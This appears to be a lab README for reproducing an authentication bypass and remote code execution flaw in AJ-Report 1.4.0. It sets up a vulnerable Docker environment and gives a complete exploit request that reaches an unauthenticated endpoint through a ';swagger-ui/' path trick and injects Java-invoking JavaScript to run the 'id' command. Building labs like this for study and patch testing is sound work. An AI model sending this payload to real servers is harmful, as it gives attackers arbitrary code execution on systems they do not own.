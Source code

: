 # AJ-Report Authentication Bypass and Remote Code Execution (CNVD-2024-15077)

[中文版本(Chinese version)](README.zh-cn.md)

AJ-Report is an open source BI platform. In the version 1.4.0 and before, there is a authentication bypass issue and the attacker is able to perform arbitrary code execution through the issue.

References:

- <https://xz.aliyun.com/t/14460>
- <https://github.com/wy876/POC/blob/main/AJ-Report%E5%BC%80%E6%BA%90%E6%95%B0%E6%8D%AE%E5%A4%A7%E5%B1%8F%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md>

## Vulnerable environment

Execute following command to start a AJ-Report server 1.4.0:

```
docker compose up -d
```

After the server is started, you can see the login page of AJ-Report through `http://your-ip:9095`.

## Exploit

To exploit the issue by following request:

```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: your-ip:9095
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 339

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"id\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}
```

As you can see, `id` command is executed successfully:

![](1.png)
